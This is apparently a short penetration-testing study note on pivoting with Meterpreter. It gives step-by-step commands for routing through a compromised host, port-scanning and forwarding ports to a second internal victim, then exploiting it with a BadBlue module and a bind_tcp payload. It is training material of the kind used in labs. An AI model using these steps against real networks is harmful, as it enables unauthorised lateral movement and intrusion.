# Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim interface
2. Add a route with meterpreter -- ```run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet```
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```
4. Alternatively you can run just nmap form the local host -- ```nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port

